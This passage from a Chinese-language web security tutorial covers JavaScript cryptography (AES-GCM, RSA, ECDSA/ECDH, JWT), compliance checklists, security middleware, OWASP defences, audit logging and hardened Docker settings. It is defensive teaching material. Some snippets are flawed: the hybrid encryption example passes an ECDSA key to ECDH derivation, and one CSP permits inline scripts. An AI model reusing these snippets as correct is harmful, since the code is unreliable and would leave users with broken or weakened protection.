    D --> D3[生成报告]

    E --> E1[隔离系统]
    E --> E2[阻断连接]
    E --> E3[通知团队]

    F --> F1[全面隔离]
    F --> F2[高管通知]
    F --> F3[启动应急预案]
```

---

## 20. 密码学实战

### 20.1 AES-GCM 加密

AES-GCM（Galois/Counter Mode）是一种同时提供加密和认证的对称加密算法。

```javascript
// Web Crypto API - AES-GCM 加密
async function encryptAESGCM(plaintext, key) {
  const encoder = new TextEncoder();
  const data = encoder.encode(plaintext);

  // 生成随机 IV（初始化向量）
  const iv = crypto.getRandomValues(new Uint8Array(12));

  const encrypted = await crypto.subtle.encrypt(
    { name: 'AES-GCM', iv },
    key,
    data
  );

  // 将 IV 和密文合并存储
  return {
    iv: Array.from(iv),
    ciphertext: Array.from(new Uint8Array(encrypted)),
  };
}

async function decryptAESGCM(encryptedData, key) {
  const { iv, ciphertext } = encryptedData;

  const decrypted = await crypto.subtle.decrypt(
    { name: 'AES-GCM', iv: new Uint8Array(iv) },
    key,
    new Uint8Array(ciphertext)
  );

  const decoder = new TextDecoder();
  return decoder.decode(decrypted);
}

// 生成密钥
async function generateKey() {
  return crypto.subtle.generateKey(
    { name: 'AES-GCM', length: 256 },
    true,
    ['encrypt', 'decrypt']
  );
}

// 使用示例
async function main() {
  const key = await generateKey();
  const message = '这是一条机密消息';

  const encrypted = await encryptAESGCM(message, key);
  console.log('加密结果:', encrypted);

  const decrypted = await decryptAESGCM(encrypted, key);
  console.log('解密结果:', decrypted); // '这是一条机密消息'
}

// Node.js 中的 AES-GCM
import { createCipheriv, createDecipheriv, randomBytes } from 'node:crypto';

function encryptNode(plaintext, key) {
  const iv = randomBytes(12);
  const cipher = createCipheriv('aes-256-gcm', key, iv);

  let encrypted = cipher.update(plaintext, 'utf8', 'hex');
  encrypted += cipher.final('hex');

  const authTag = cipher.getAuthTag();

  return {
    iv: iv.toString('hex'),
    ciphertext: encrypted,
    authTag: authTag.toString('hex'),
  };
}

function decryptNode(encryptedData, key) {
  const { iv, ciphertext, authTag } = encryptedData;
  const decipher = createDecipheriv('aes-256-gcm', key, Buffer.from(iv, 'hex'));
  decipher.setAuthTag(Buffer.from(authTag, 'hex'));

  let decrypted = decipher.update(ciphertext, 'hex', 'utf8');
  decrypted += decipher.final('utf8');

  return decrypted;
}
```

### 20.2 RSA 加密与签名

```javascript
// RSA 密钥对生成
async function generateRSAKeyPair() {
  return crypto.subtle.generateKey(
    {
      name: 'RSA-OAEP',
      modulusLength: 2048,
      publicExponent: new Uint8Array([1, 0, 1]),
      hash: 'SHA-256',
    },
    true,
    ['encrypt', 'decrypt']
  );
}

// RSA 加密
async function encryptRSA(publicKey, plaintext) {
  const encoder = new TextEncoder();
  const encrypted = await crypto.subtle.encrypt(
    { name: 'RSA-OAEP' },
    publicKey,
    encoder.encode(plaintext)
  );
  return new Uint8Array(encrypted);
}

// RSA 解密
async function decryptRSA(privateKey, ciphertext) {
  const decrypted = await crypto.subtle.decrypt(
    { name: 'RSA-OAEP' },
    privateKey,
    ciphertext
  );
  const decoder = new TextDecoder();
  return decoder.decode(decrypted);
}

// RSA 数字签名
async function signRSA(privateKey, data) {
  const encoder = new TextEncoder();
  const signature = await crypto.subtle.sign(
    { name: 'RSASSA-PKCS1-v1_5' },
    privateKey,
    encoder.encode(data)
  );
  return new Uint8Array(signature);
}

async function verifyRSA(publicKey, signature, data) {
  const encoder = new TextEncoder();
  return crypto.subtle.verify(
    { name: 'RSASSA-PKCS1-v1_5' },
    publicKey,
    signature,
    encoder.encode(data)
  );
}
```

### 20.3 ECC（椭圆曲线密码学）

```javascript
// ECC 密钥对生成
async function generateECCKeyPair() {
  return crypto.subtle.generateKey(
    { name: 'ECDSA', namedCurve: 'P-256' },
    true,
    ['sign', 'verify']
  );
}

// ECC 签名
async function signECC(privateKey, data) {
  const encoder = new TextEncoder();
  const signature = await crypto.subtle.sign(
    { name: 'ECDSA', hash: 'SHA-256' },
    privateKey,
    encoder.encode(data)
  );
  return new Uint8Array(signature);
}

// ECC 验证签名
async function verifyECC(publicKey, signature, data) {
  const encoder = new TextEncoder();
  return crypto.subtle.verify(
    { name: 'ECDSA', hash: 'SHA-256' },
    publicKey,
    signature,
    encoder.encode(data)
  );
}

// ECDH 密钥交换
async function deriveSharedSecret(privateKey, publicKey) {
  return crypto.subtle.deriveKey(
    { name: 'ECDH', public: publicKey },
    privateKey,
    { name: 'AES-GCM', length: 256 },
    false,
    ['encrypt', 'decrypt']
  );
}

// 混合加密：ECDH + AES-GCM
async function hybridEncrypt(publicKey, plaintext) {
  // 1. 生成临时 ECC 密钥对
  const ephemeralKeyPair = await generateECCKeyPair();

  // 2. 使用 ECDH 派生共享密钥
  const sharedKey = await deriveSharedSecret(
    ephemeralKeyPair.privateKey,
    publicKey
  );

  // 3. 使用 AES-GCM 加密数据
  const encrypted = await encryptAESGCM(plaintext, sharedKey);

  return {
    ephemeralPublicKey: await crypto.subtle.exportKey(
      'raw',
      ephemeralKeyPair.publicKey
    ),
    ...encrypted,
  };
}
```

### 20.4 数字签名与证书链验证

```mermaid
graph TD
    A[根证书 CA] --> B[中间证书 CA]
    B --> C[网站证书]
    B --> D[代码签名证书]

    E[证书链验证] --> F{根证书受信任?}
    F -->|是| G{中间证书有效?}
    F -->|否| H[拒绝]
    G -->|是| I{网站证书有效?}
    G -->|否| H
    I -->|是| J[信任]
    I -->|否| H

    I --> K{检查过期}
    I --> L{检查吊销}
    I --> M{检查域名匹配}
```

```javascript
// JWT 签名验证
import jwt from 'jsonwebtoken';

// 创建 JWT
function createToken(payload, secret, options = {}) {
  return jwt.sign(payload, secret, {
    algorithm: 'HS256',
    expiresIn: '1h',
    issuer: 'my-app',
    audience: 'my-users',
    ...options,
  });
}

// 验证 JWT
function verifyToken(token, secret) {
  try {
    return jwt.verify(token, secret, {
      algorithms: ['HS256'],
      issuer: 'my-app',
      audience: 'my-users',
    });
  } catch (error) {
    if (error.name === 'TokenExpiredError') {
      throw new Error('令牌已过期');
    }
    if (error.name === 'JsonWebTokenError') {
      throw new Error('无效的令牌');
    }
    throw error;
  }
}

// 使用 RS256（非对称签名）
// 适合微服务架构：服务 A 签名，服务 B 验证
function createTokenRS256(payload, privateKey) {
  return jwt.sign(payload, privateKey, {
    algorithm: 'RS256',
    expiresIn: '1h',
  });
}

function verifyTokenRS256(token, publicKey) {
  return jwt.verify(token, publicKey, {
    algorithms: ['RS256'],
  });
}
```

---

## 21. 合规框架

### 21.1 主流合规框架对比

| 框架 | 全称 | 适用场景 | 核心要求 |
|------|------|----------|----------|
| **SOC 2** | Service Organization Control 2 | SaaS/云服务商 | 信任服务标准（安全性、可用性、处理完整性、机密性、隐私） |
| **ISO 27001** | 信息安全管理体系 | 各类组织 | 信息安全管理体系（ISMS） |
| **PCI DSS** | 支付卡行业数据安全标准 | 处理信用卡支付 | 保护持卡人数据、漏洞管理、访问控制 |
| **GDPR** | 通用数据保护条例 | 处理欧盟用户数据 | 数据最小化、用户同意、数据可携带性 |
| **HIPAA** | 健康保险可携带性和责任法案 | 医疗健康数据 | 患者隐私、数据加密、访问审计 |

### 21.2 SOC 2 五大信任服务标准

```mermaid
graph TD
    A[SOC 2 信任服务标准] --> B[安全性<br>Security]
    A --> C[可用性<br>Availability]
    A --> D[处理完整性<br>Processing Integrity]
    A --> E[机密性<br>Confidentiality]
    A --> F[隐私<br>Privacy]

    B --> B1[访问控制]
    B --> B2[入侵检测]
    B --> B3[漏洞管理]

    C --> C1[SLA 保障]
    C --> C2[灾难恢复]
    C --> C3[性能监控]

    D --> D1[数据准确性]
    D --> D2[处理完整性]

    E --> E1[数据分类]
    E --> E2[加密存储]

    F --> F1[隐私政策]
    F --> F2[数据删除]
```

### 21.3 合规实施检查清单

```javascript
// SOC 2 合规检查清单
const soc2Checklist = {
  // 安全性
  security: {
    accessControl: [
      '✅ 实施最小权限原则',
      '✅ 多因素认证（MFA）',
      '✅ 定期访问审查',
      '✅ 自动化账户生命周期管理',
    ],
    monitoring: [
      '✅ 安全信息和事件管理（SIEM）',
      '✅ 入侵检测系统（IDS）',
      '✅ 日志保留至少 90 天',
      '✅ 实时告警机制',
    ],
    vulnerabilityManagement: [
      '✅ 定期漏洞扫描',
      '✅ 补丁管理流程',
      '✅ 渗透测试（每年至少一次）',
      '✅ 依赖安全审计',
    ],
  },

  // 可用性
  availability: {
    infrastructure: [
      '✅ SLA 99.9%+ 可用性',
      '✅ 自动故障转移',
      '✅ 负载均衡',
      '✅ CDN 使用',
    ],
    disasterRecovery: [
      '✅ 灾难恢复计划（DRP）',
      '✅ 定期备份测试',
      '✅ RTO < 4 小时，RPO < 1 小时',
      '✅ 业务连续性计划（BCP）',
    ],
  },

  // 机密性
  confidentiality: {
    dataProtection: [
      '✅ 静态数据加密（AES-256）',
      '✅ 传输数据加密（TLS 1.3）',
      '✅ 密钥管理流程',
      '✅ 数据分类标签',
    ],
  },
};

// ISO 27001 关键控制域
const iso27001Controls = {
  'A.5': '信息安全策略',
  'A.6': '信息安全组织',
  'A.7': '人力资源安全',
  'A.8': '资产管理',
  'A.9': '访问控制',
  'A.10': '密码学',
  'A.11': '物理和环境安全',
  'A.12': '运行安全',
  'A.13': '通信安全',
  'A.14': '系统获取、开发和维护',
  'A.15': '供应商关系',
  'A.16': '信息安全事件管理',
  'A.17': '业务连续性管理',
  'A.18': '合规性',
};

// PCI DSS 关键要求
const pciDssRequirements = {
  1: '安装和维护网络安全控制',
  2: '对所有系统组件应用安全配置',
  3: '保护已存储的账户数据',
  4: '使用强加密保护传输中的持卡人数据',
  5: '保护所有系统和网络免受恶意软件侵害',
  6: '开发和维护安全的系统和软件',
  7: '按业务需求限制对系统组件的访问',
  8: '识别用户并认证对系统组件的访问',
  9: '限制对持卡人数据的物理访问',
  10: '记录和监控所有网络访问',
  11: '定期测试安全系统和流程',
  12: '支持信息安全的组织政策和程序',
};
```

### 21.4 合规自动化工具

```javascript
// 合规即代码（Compliance as Code）
const complianceRules = {
  // 检查加密配置
  async checkEncryption() {
    const findings = [];

    // 检查数据库加密
    const dbEncrypted = await checkDatabaseEncryption();
    if (!dbEncrypted) {
      findings.push({
        severity: 'high',
        rule: 'PCI-DSS-3.4',
        message: '数据库未启用静态加密',
      });
    }

    // 检查 TLS 版本
    const tlsVersion = await checkTLSVersion();
    if (tlsVersion < 1.2) {
      findings.push({
        severity: 'critical',
        rule: 'PCI-DSS-4.1',
        message: `TLS 版本 ${tlsVersion} 过低，需要 1.2+`,
      });
    }

    return findings;
  },

  // 检查访问控制
  async checkAccessControl() {
    const findings = [];

    // 检查 MFA
    const mfaEnabled = await checkMFAEnforcement();
    if (!mfaEnabled) {
      findings.push({
        severity: 'high',
        rule: 'SOC2-CC6.1',
        message: '未强制启用多因素认证',
      });
    }

    // 检查特权账户
    const privilegedAccounts = await getPrivilegedAccounts();
    if (privilegedAccounts.length > 5) {
      findings.push({
        severity: 'medium',
        rule: 'ISO27001-A.9.2.3',
        message: `特权账户过多: ${privilegedAccounts.length}`,
      });
    }

    return findings;
  },

  // 生成合规报告
  async generateReport() {
    const [encryption, accessControl] = await Promise.all([
      this.checkEncryption(),
      this.checkAccessControl(),
    ]);

    const allFindings = [...encryption, ...accessControl];

    return {
      timestamp: new Date().toISOString(),
      totalFindings: allFindings.length,
      critical: allFindings.filter(f => f.severity === 'critical').length,
      high: allFindings.filter(f => f.severity === 'high').length,
      medium: allFindings.filter(f => f.severity === 'medium').length,
      findings: allFindings,
      compliance: {
        soc2: this.assessSOC2Compliance(allFindings),
        iso27001: this.assessISO27001Compliance(allFindings),
        pciDss: this.assessPCIDSSCompliance(allFindings),
      },
    };
  },
};
```

---

## 22. 综合实战：完整的安全架构

```mermaid
graph TB
    subgraph Perimeter [边界安全]
        A[WAF<br>Web 应用防火墙] --> B[DDoS 防护]
        B --> C[CDN]
    end

    subgraph Identity [身份安全]
        D[MFA<br>多因素认证] --> E[SSO<br>单点登录]
        E --> F[RBAC<br>基于角色的访问控制]
    end

    subgraph Data [数据安全]
        G[加密传输<br>TLS 1.3] --> H[加密存储<br>AES-256]
        H --> I[密钥管理<br>HashiCorp Vault]
    end

    subgraph Monitoring [安全监控]
        J[SIEM] --> K[SOAR]
        K --> L[告警响应]
    end

    subgraph Compliance [合规]
        M[SOC 2] --> N[审计日志]
        N --> O[合规报告]
    end

    Perimeter --> Identity
    Identity --> Data
    Data --> Monitoring
    Monitoring --> Compliance
```

```javascript
// 完整的安全中间件栈
import helmet from 'helmet';
import rateLimit from 'express-rate-limit';
import cors from 'cors';
import { createProxyMiddleware } from 'http-proxy-middleware';

// 1. 安全头部
app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'", "'unsafe-inline'"],
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", "data:", "https:"],
    },
  },
  hsts: { maxAge: 31536000, includeSubDomains: true },
}));

// 2. CORS 配置
app.use(cors({
  origin: process.env.ALLOWED_ORIGINS?.split(',') || [],
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization'],
}));

// 3. 限流
const globalLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 100,
  standardHeaders: true,
});
app.use(globalLimiter);

// 4. 认证中间件
app.use('/api', authenticateToken);

// 5. 授权中间件
app.use('/api/admin', requireRole('admin'));

// 6. 输入验证
app.use('/api', validateInput);

// 7. 审计日志
app.use('/api', auditLog);

// 8. 错误处理（不泄露内部信息）
app.use((err, req, res, next) => {
  console.error(err);
  res.status(500).json({
    error: '服务器内部错误',
    // 不返回 err.message（可能包含敏感信息）
  });
});
```

---

## 23. 安全编码实践

### 23.1 OWASP Top 10 防护

```javascript
// OWASP Top 10 (2021) 防护措施

// 1. A01:2021 - 访问控制失效
// 实施细粒度的访问控制
class AccessControl {
  static check(user, resource, action) {
    // 基于角色的访问控制
    const rolePermissions = {
      admin: ['read', 'write', 'delete', 'manage'],
      editor: ['read', 'write'],
      viewer: ['read'],
    };

    const permissions = rolePermissions[user.role] || [];
    return permissions.includes(action);
  }

  // 对象级权限检查
  static async checkObjectAccess(userId, resourceId, resourceType) {
    const resource = await db[resourceType].findById(resourceId);
    if (!resource) return false;

    // 检查用户是否是资源的所有者
    if (resource.ownerId === userId) return true;

    // 检查用户是否有共享权限
    const shared = await db.permissions.findOne({
      userId,
      resourceId,
      resourceType,
    });

    return !!shared;
  }
}

// 2. A02:2021 - 加密机制失效
// 正确的密码哈希
import bcrypt from 'bcrypt';

const SALT_ROUNDS = 12;

async function hashPassword(password) {
  return bcrypt.hash(password, SALT_ROUNDS);
}

async function verifyPassword(password, hash) {
  return bcrypt.compare(password, hash);
}

// 安全的随机数生成
import { randomBytes, randomUUID } from 'node:crypto';

function generateSecureToken(length = 32) {
  return randomBytes(length).toString('hex');
}

function generateSessionId() {
  return randomUUID();
}

// 3. A03:2021 - 注入防护
// SQL 注入防护（参数化查询）
async function findUsers(filters) {
  const conditions = [];
  const params = [];
  let paramIndex = 1;

  if (filters.name) {
    conditions.push(`name = $${paramIndex++}`);
    params.push(filters.name);
  }

  if (filters.email) {
    conditions.push(`email = $${paramIndex++}`);
    params.push(filters.email);
  }

  const query = `
    SELECT * FROM users
    ${conditions.length > 0 ? 'WHERE ' + conditions.join(' AND ') : ''}
    LIMIT $${paramIndex++} OFFSET $${paramIndex++}
  `;

  params.push(filters.limit || 10, filters.offset || 0);

  return db.query(query, params);
}

// NoSQL 注入防护
async function findDocument(collection, query) {
  // ✅ 清理查询对象
  const sanitizedQuery = sanitizeQuery(query);
  return db.collection(collection).findOne(sanitizedQuery);
}

function sanitizeQuery(query) {
  const sanitized = {};
  for (const [key, value] of Object.entries(query)) {
    // 移除 $ 操作符
    if (key.startsWith('$')) continue;
    sanitized[key] = value;
  }
  return sanitized;
}

// 4. A04:2021 - 不安全设计
// 速率限制
function createRateLimiter({ windowMs, max }) {
  const store = new Map();

  return (req, res, next) => {
    const key = req.ip;
    const now = Date.now();
    const windowStart = now - windowMs;

    // 清理过期记录
    if (store.has(key)) {
      const requests = store.get(key).filter(t => t > windowStart);
      store.set(key, requests);
    } else {
      store.set(key, []);
    }

    const requests = store.get(key);

    if (requests.length >= max) {
      return res.status(429).json({
        error: '请求过于频繁',
        retryAfter: Math.ceil((requests[0] + windowMs - now) / 1000),
      });
    }

    requests.push(now);
    next();
  };
}

// 5. A05:2021 - 安全配置错误
// 安全响应头
function securityHeaders(req, res, next) {
  // 移除服务器信息
  res.removeHeader('X-Powered-By');

  // 设置安全头
  res.setHeader('X-Content-Type-Options', 'nosniff');
  res.setHeader('X-Frame-Options', 'DENY');
  res.setHeader('X-XSS-Protection', '1; mode=block');
  res.setHeader('Referrer-Policy', 'strict-origin-when-cross-origin');
  res.setHeader('Permissions-Policy', 'camera=(), microphone=(), geolocation=()');

  // Content Security Policy
  res.setHeader('Content-Security-Policy', [
    "default-src 'self'",
    "script-src 'self'",
    "style-src 'self' 'unsafe-inline'",
    "img-src 'self' data: https:",
    "font-src 'self'",
    "connect-src 'self'",
    "frame-ancestors 'none'",
    "base-uri 'self'",
    "form-action 'self'",
  ].join('; '));

  next();
}
```

### 23.2 安全日志与审计

```javascript
// 安全审计日志系统
class SecurityAuditLogger {
  constructor(options) {
    this.logger = options.logger;
    this.storage = options.storage;
  }

  // 记录认证事件
  logAuthEvent(event) {
    const logEntry = {
      timestamp: new Date().toISOString(),
      category: 'authentication',
      action: event.action, // 'login', 'logout', 'mfa_challenge', 'password_reset'
      userId: event.userId,
      ip: event.ip,
      userAgent: event.userAgent,
      success: event.success,
      reason: event.reason,
      riskScore: event.riskScore,
    };

    this.logger.info('认证事件', logEntry);
    this.storage.save(logEntry);
  }

  // 记录授权事件
  logAuthorizationEvent(event) {
    const logEntry = {
      timestamp: new Date().toISOString(),
      category: 'authorization',
      action: event.action, // 'access_granted', 'access_denied'
      userId: event.userId,
      resource: event.resource,
      permission: event.permission,
      ip: event.ip,
    };

    this.logger.info('授权事件', logEntry);
    this.storage.save(logEntry);
  }

  // 记录数据访问
  logDataAccess(event) {
    const logEntry = {
      timestamp: new Date().toISOString(),
      category: 'data_access',
      action: event.action, // 'read', 'write', 'delete', 'export'
      userId: event.userId,
      resourceType: event.resourceType,
      resourceId: event.resourceId,
      fields: event.fields, // 访问了哪些字段
      recordCount: event.recordCount,
    };

    this.logger.info('数据访问', logEntry);
    this.storage.save(logEntry);
  }

  // 记录安全事件
  logSecurityEvent(event) {
    const logEntry = {
      timestamp: new Date().toISOString(),
      category: 'security',
      severity: event.severity, // 'low', 'medium', 'high', 'critical'
      type: event.type, // 'suspicious_activity', 'brute_force', 'injection_attempt'
      details: event.details,
      ip: event.ip,
      userId: event.userId,
    };

    this.logger.warn('安全事件', logEntry);
    this.storage.save(logEntry);

    // 高危事件自动告警
    if (event.severity === 'critical' || event.severity === 'high') {
      this.alertSecurityTeam(logEntry);
    }
  }

  async alertSecurityTeam(event) {
    // 发送告警通知
    await notificationService.send({
      channel: 'security-alerts',
      message: `🚨 安全告警: ${event.type}`,
      details: event,
    });
  }
}

// 使用示例
const auditLogger = new SecurityAuditLogger({
  logger: console,
  storage: new DatabaseStorage('audit_logs'),
});

// 在认证流程中使用
async function handleLogin(req, res) {
  const { email, password } = req.body;

  try {
    const user = await authenticate(email, password);

    auditLogger.logAuthEvent({
      action: 'login',
      userId: user.id,
      ip: req.ip,
      userAgent: req.headers['user-agent'],
      success: true,
    });

    res.json({ token: generateToken(user) });
  } catch (error) {
    auditLogger.logAuthEvent({
      action: 'login',
      userId: null,
      ip: req.ip,
      userAgent: req.headers['user-agent'],
      success: false,
      reason: error.message,
    });

    res.status(401).json({ error: '认证失败' });
  }
}
```

### 23.3 安全配置模板

```yaml
# docker-compose.security.yml - 安全加固的 Docker 配置
version: '3.8'

services:
  app:
    image: node:20-alpine
    read_only: true
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
    tmpfs:
      - /tmp
    environment:
      - NODE_ENV=production
    healthcheck:
      test: ['CMD', 'node', 'healthcheck.js']
      interval: 30s
      timeout: 10s
      retries: 3

  nginx:
    image: nginx:alpine
    read_only: true
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
    volumes:
      - ./nginx.conf:/etc/nginx/nginx.conf:ro
      - ./ssl:/etc/nginx/ssl:ro

  postgres:
    image: postgres:16-alpine
    read_only: true
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - CHOWN
      - SETUID
      - SETGID
      - FOWNER
      - DAC_READ_SEARCH
    environment:
      - POSTGRES_PASSWORD_FILE=/run/secrets/db_password
    secrets:
      - db_password
```

```javascript
// 安全的环境变量管理
// config/security.js
import { readFileSync } from 'node:fs';

function loadSecret(name) {
  // 优先从文件读取（Docker Secrets）
  try {
    return readFileSync(`/run/secrets/${name}`, 'utf-8').trim();
  } catch {
    // 回退到环境变量
    const value = process.env[name.toUpperCase()];
    if (!value) {
      throw new Error(`缺少必需的密钥: ${name}`);
    }
    return value;
  }
}

export const securityConfig = {
  jwt: {
    secret: loadSecret('jwt_secret'),
    expiresIn: '1h',
    refreshExpiresIn: '7d',
  },
  encryption: {
    key: loadSecret('encryption_key'),
    algorithm: 'aes-256-gcm',
  },
  session: {
    secret: loadSecret('session_secret'),
    maxAge: 24 * 60 * 60 * 1000, // 24 hours
  },
};
```
